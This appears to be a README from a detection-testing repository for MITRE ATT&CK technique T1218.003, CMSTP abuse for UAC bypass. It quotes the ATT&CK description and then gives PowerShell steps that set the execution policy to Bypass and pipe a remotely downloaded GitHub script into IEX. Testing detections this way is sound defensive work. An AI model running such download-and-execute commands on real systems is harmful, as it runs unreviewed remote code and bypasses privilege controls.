 # T1218.003 - CMSTP
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1218/003)
<blockquote>Adversaries may abuse CMSTP to proxy execution of malicious code or to [Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002).

The Microsoft Connection Manager Profile Installer (CMSTP.exe) is a command-line program used to install Connection Manager service profiles. (Citation: Microsoft Connection Manager Oct 2009) CMSTP.exe accepts an installation information file (INF) as a parameter and installs a service profile leveraged for remote access connections.

CMSTP.exe can be abused to and execute arbitrary commands from a malicious INF through an auto-elevated COM interface. (Citation: MSitPros CMSTP Aug 2017) (Citation: GitHub Ultimate AppLocker Bypass List) (Citation: Endurant CMSTP July 2018)</blockquote>

## Tests

- CMSTP Executing UAC Bypass

## How To Run
Open PowerShell.exe as an administrative user, but **do not** "Run as Administrator". Then execute the following commands:

```PowerShell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process

IEX(IWR "https://raw.githubusercontent.com/SecurIT360/TTP-Detection-Testing/main/Defense-Evasion/T1218.003/CMSTP_UACBypass_Test.ps1")
```
